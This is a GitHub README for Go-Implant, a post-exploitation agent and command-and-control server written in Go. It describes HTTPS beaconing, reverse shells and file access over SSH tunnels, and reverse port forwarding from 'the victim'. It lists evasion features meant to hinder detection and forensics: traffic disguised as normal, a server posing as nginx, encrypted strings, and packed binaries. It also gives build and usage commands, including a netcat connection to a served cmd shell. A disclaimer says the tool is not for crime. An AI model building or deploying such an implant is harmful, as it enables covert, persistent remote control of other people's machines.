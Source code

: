 # Go-Implant
Go-Implant is a cross-platform post-exploitation agent written in Go. It consists of a server and a client (or agent). The agent beacons to the server periodically using http POST requests. As a reply to the beacon, the server returns list of commands to execute on the client. Built-in commands include port forwards, reverse shell and configuration changes.

To make detection and forensics harder:
- All communications in Go-Implant are encrypted and look 'normal' in traffic analysis. Beacons by default use HTTPS, while reverse shells and port forwards use SSH tunnels.
- The http server looks like a default installation of nginx to others than the agent.
- All sensitive strings inside the agent binary, such as configuration, are AES encrypted using random key.
- Agent configuration is flexible, user can choose for example beacon interval, user agent of beacons and beacon endpoints. 


### Note
Go-Implant is not a tool for committing crime. There is no functionality for criminal activities inbuilt to it, nor will it be added. This means for example that there is no persistence or modules for stealing credentials from systems.
The Author is not responsible of anything you use go-implant for.


## Why?
Because no long-deployable, cross-platform, flexible reverse shell with only basic functionality and standard protocols was found. Go-Implant is an attempt to create one.


## Features
- Encrypted communications
- Reverse shell access
- upload / download files
- Reverse port forwarding


## Installation
`apt install -y git make upx strip`
`git clone <repo name>`
`cd <repo name>`
`make deps`


## Compilation
Both client and server of Go-Implant are standalone executables that need to be compiled. Server has only been tested to compile and work on linux. Client has been tested to compile on Linux, and work on Linux and Windows.

### Server
1. Compile the server: (in cmd/server)
    `make prod`

### Client
1. Set configuration in /client/config/parameters.go
2. Encrypt static strings
    `cd client/config/`
    remove //build +ignore tag from parameters.go
    `go generate`
    add //build +ignore tag back to parameters.go
3. Compile the client for all platforms (in cmd/client)
    `make prod`

The makefile compiles the client for all platforms, strips symbols from the executables and finally packs them using upx.
As of writing mac executables are not stripped.
NOTE: makefile assumes commands upx and strip are available

### Debug builds
Should anything not work as expected, debugging builds are available of both server and client. These build include debugging symbols, a ton of printouts to tracks the activities of the program and omit compressing the resulting binaries. Debugging builds are trivial to reverse-engineer and therefore should not be used in production.

To compile debugging build, use command:
`make debug`
for both client and the server.

#### Configuration
The following parameters are freely configurable by the user in /client/config/parameters.go:

Sleeptime (int) - the time slept between beacons in seconds
Jitter (int) - random extra delay to be added to the sleeptime
Retries (int) - amount of tries to take in case C2 is unreachable
UserAgent (string) - the user agent that gets sent on beacons
CCHost (string) - the base server url
Endpoints (string[]) - the endpoints in the server to which beacon. They are chosen randomly


## Usage

### Server

You should get a SSL certificate and corresponding private key from Lets encrypt for best results. The agent will not trust self-signed certificates unless the root certificate has been installed first.

```
Usage of ./server:
  -cert string
    	file with https cert (default "server.crt")
  -forwarded-timeout duration
    	forwarded-tcpip timeout (default 3h0m0s)
  -handlerport int
    	port of HTTP* listener (default 443)
  -http
    	use HTTP instead of HTTPS
  -main-timeout duration
    	Client socket timeout (default 3h0m0s)
  -privkey string
    	file with private key for cert (default "server.key")
  -sshport int
    	port of SSH listener (default 22)
```

#### examples
`./server -handlerport 8080 -sshport 2222`
`./server -cert othercert.crt -privkey otherkey.key`
`./server -forwarded-timeout 0h10m0s`


## Reverse shell and file access

Reverse shell access works as follows: The client starts a sshd listening on localhost and then initializes a reverse port forward to the server. The sshd on the client can then be accessed from the server using the forwarded port. There are commands quickssh and serveSSH on the server that start the reverse shell. quickssh uses the inbuilt sshd on the Go-Implant server to catch the port forward, serveSSH enables the usage any normal sshd for the purpose. 

NOTE: in order for the client to be able to forward port to the host, it needs to have valid SSH credentials. One must make sure that the credentials cannot be used to obtain a shell to the server when using normal sshd. In the inbuilt SSH, only reverse port forwards are allowed by clients.

Filesystem access is done using sftp.

### Unix (linux or mac):
After forwarding port from the client to server, just SSH in using the generated credentials.
`ssh <username>@localhost -p <port>`

### Windows:
After forwarding port from the client to server, forward another port from the client machine using the client's sshd to localhost, then connect to the forwarded port using netcat
`ssh -N -L <localport>:0.0.0.0:<destport> localhost -p <port>`
`nc localhost <localport>`

NOTE: right now destport is not used! The remote host 0.0.0.0 is a magic string that tells the agent to serve a cmd shell to the client.

### Uploading / Downloading files with sftp (both windows and unix)
After forwarding port from the client to server, you can access the filesystem using sftp.
`sftp -P <port> <username>@localhost`


## Port forwarding

Local ssh listener in the server allows at most 5 reverse port forwards from the victim.

### Windows:
On windows, ports can be forwarded but no shell can be launched at the same time, therefore flag -N must be used. Omitting the flag causes the client to serve sftp instead
`ssh -N -L <localport>:<desthost>:<destport> localhost -p <port>`

### Unix (linux or mac):
On linux, ports can be forwarded similarly with the familiar sshd
`ssh [-N] -L <localport>:<desthost>:<destport> localhost -p <port>`


## Features for future releases
- add x11 forwarding to unix ssh handler
- encrypt protocol strings


## Contributing
Contributions are more than welcome! Please submit your well tested code as a pull request. Writing documentation is also encouraged.
